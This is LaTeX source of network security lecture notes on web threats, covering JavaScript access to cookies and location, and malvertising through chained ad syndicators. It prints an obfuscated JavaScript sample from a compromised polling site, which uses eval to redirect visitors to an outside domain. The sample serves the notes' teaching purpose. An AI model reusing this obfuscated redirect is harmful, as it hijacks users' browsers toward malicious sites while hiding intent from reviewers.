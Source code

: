 \documentclass[a4paper, 10pt, titlepage]{article}
\begin{document}
Javascript can access elements of the DOM (Document Objected Model), like forms and links 
\begin{footnotesize}
\begin{lstlisting}
	document.cookie;
\end{lstlisting}
\end{footnotesize}
or of the BOM (Browser Objected Model), like window and location.
\begin{footnotesize}
\begin{lstlisting}
	location.replace("thirddomain.com");
\end{lstlisting}
\end{footnotesize}
An example of content compromisation is the one found by Provos in 2006, on a website to create and publish customised online polls. It is an obfuscated javascript code.
\begin{footnotesize}
	\begin{lstlisting}
	<SCRIPT language=JavaScript>
	function otqzyu(nemz)juyu="lo";sdfwe78="catio";
	kjj="n.r";vj20=2;uyty="eplac";iuiuh8889="e";vbb25="('";
	awq27="";sftfttft=4;fghdh="'ht";ji87gkol="tp:/";
	polkiuu="/vi";jbhj89="deo";jhbhi87="zf";hgdxgf="re";
	jkhuift="e.c";jygyhg="om'";dh4=eval(fghdh+ji87gkol+
	polkiuu+jbhj89+jhbhi87+hgdxgf+jkhuift+jygyhg);je15="')"; if
	(vj20+sftfttft==6) eval(juyu+sdfwe78+kjj+ uyty+
	iuiuh8889+vbb25+awq27+dh4+je15);
	otqzyu();//
	</SCRIPT>
	
	location.replace('http://videozfree.com')
	\end{lstlisting}
\end{footnotesize}

\subsubsection*{Sources of risk – malicious third party content}
\begin{center}
	\texttt{[image: img/netsec43d.png]}
\end{center}
Ad networks are a typical infection drive (“Malvertising”). 
Advert can deliver malicious javascript, social engineering attacks, exploit plugin vulnerabilities, etc. As an additional problem, it is hard to track evolution of third-party providers (advertisement, widgets, ...): they can be trustworthy at start of contract, may change behaviour later on, it is hard to know.
\begin{center}
	\texttt{[image: img/netsec43f.png]}
\end{center}
The delivery of Ads can be direct, but it is usually mediated by a Syndicator, an aggregator which chooses the right Ad to be displayed for every situation. As it can be seen in the real case scenario (second image), syndicators are also usually chained.
\end{document}
